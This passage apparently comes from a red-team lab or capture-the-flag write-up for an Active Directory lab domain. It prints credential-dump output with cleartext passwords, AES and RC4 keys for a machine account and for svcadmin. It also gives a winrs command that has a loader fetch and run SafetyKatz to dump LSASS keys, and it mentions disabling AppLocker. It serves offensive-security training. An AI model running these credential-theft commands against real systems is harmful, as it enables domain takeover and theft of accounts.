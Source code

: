 ```powershell
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:35 AM
SID               : S-1-5-96-0-1

         * Username : DCORP-ADMINSRV$
         * Domain   : dollarcorp.moneycorp.local
         * Password : Q:hFT'!FUXP6E_2)CK dxm2vl*'N>a;z-NIMogeiBtHMtjgw@,Lx:YD.="5G[e  Y+wN@^44>IT@sd^DxQ4HWRY6%208?lTEbU`u.H0d%zYIW/d@QaT7Ztd'
         * Key List :
           aes256_hmac       82ecf869176628379da0ae884b582c36fc2215ef7e8e3e849d720847299257ff
           aes128_hmac       3f3532b2260c2851bf57e8b5573f7593
           rc4_hmac_nt       b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old      b5f451985fd34d58d5120816d31b5565
           rc4_md4           b5f451985fd34d58d5120816d31b5565
           rc4_hmac_nt_exp   b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old_exp  b5f451985fd34d58d5120816d31b5565

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-ADMINSRV$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:34 AM
SID               : S-1-5-18

         * Username : dcorp-adminsrv$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51
           rc4_hmac_nt       b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old      b5f451985fd34d58d5120816d31b5565
           rc4_md4           b5f451985fd34d58d5120816d31b5565
           rc4_hmac_nt_exp   b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old_exp  b5f451985fd34d58d5120816d31b5565           
```

And now we're able to disable Applocker.

### Flag 10 \[dcorp-mgmt] - Process using svcadmin as service account 🚩

Remembering that we already know credentials for svcadmin user using Safetykatz: `winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::Evasive-keys" "exit"`

we can start a session inserting credentials below:

```powershell
Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
```